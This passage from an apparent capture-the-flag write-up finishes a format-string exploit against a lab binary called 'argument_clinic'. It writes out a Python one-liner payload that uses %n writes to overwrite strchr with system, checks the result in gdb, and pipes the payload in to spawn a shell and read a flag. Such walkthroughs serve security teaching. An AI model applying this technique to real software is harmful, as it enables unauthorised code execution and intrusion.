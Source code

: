 (gdb) r < ~/x1.txt
(gdb) x/4xw 0x601110
0x601110:      0xf7222222      0x000022ff      0x00000000      0x00000000
```

So far so good. The last value we need to print is the biggest. Once again,
we can subtract what we've already printed, the length of the additional
specifier, and the extra periods, giving us 14483575 left to print.

```
> python -c 'print "/bin/sh " + "%2236954d......." + "%18$n..." + "%56774d........." + "%19$n..." + "%14483575d......" + "%20$n..." + "\x10\x11\x60\x00\x00\x00\x00\x00\x13\x11\x60\x00\x00\x00\x00\x00\x15\x11\x60\x00\x00\x00\x00\x00"' > \~/p1.txt

(gdb) r < ~/x1.txt
(gdb) x/4xw 0x601110
0x601110:      0xf7222222      0x00007fff      0x00000000      0x00000000
```

Perfect! Now that the address of system has replaced strchr, when the code reaches
the if statement, it should successfully call system("/bin/sh") and launch a shell.
Lets go outside of gdb and run it again to see if it works, with an extra cat as we've
done in other shell-launching binaries:

```
> (cat ~/x1.txt; cat) | ./argument_clinic
```

If the values were all properly configured, a shell will be launched and we can
simply ```cat flag.txt```! 




Note: If, while working on this, you encounter a "printf positional" error, this usually means
you are trying to write in an invalid place. Try replacing the %n that's failing with a 
%lx again, and make sure it still prints the address as you expect. If not, there might
be an alignment issue - double check all of the specifiers, and add/remove spacing as
needed.